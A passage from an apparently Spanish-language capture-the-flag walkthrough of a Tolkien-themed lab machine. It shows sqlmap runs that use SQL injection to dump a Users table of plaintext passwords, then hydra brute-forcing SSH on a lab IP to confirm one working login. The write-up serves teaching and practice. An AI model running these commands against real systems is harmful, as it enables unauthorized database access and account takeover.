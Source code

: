 ```bash
❯ sqlmap -r login.req --dbs
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp

❯ sqlmap -o -r login.req -D Webapp --tables
Database: Webapp
[1 table]
+-------+
| Users |
+-------+

❯ sqlmap -o -r login.req -D Webapp -T Users --columns

Database: Webapp
Table: Users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(10)      |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+

❯ sqlmap -o -r login.req -D Webapp -T Users --dump

Database: Webapp
Table: Users
[5 entries]
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
| 1  | frodo    | iwilltakethering |
| 2  | smeagol  | MyPreciousR00t   |
| 3  | aragorn  | AndMySword       |
| 4  | legolas  | AndMyBow         |
| 5  | gimli    | AndMyAxe         |
+----+----------+------------------+
```

Ya tenemos la lista de usuarios y claves, ahora probamos `hydra` para validar qué usuario puede ingresar al sistema por `SSH`{: .filepath}.

```bash
❯ hydra -L user -P pass 10.11.12.14 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-11 15:29:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.11.12.14:22/
[22][ssh] host: 10.11.12.14   login: smeagol   password: MyPreciousR00t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-11 15:30:08
```
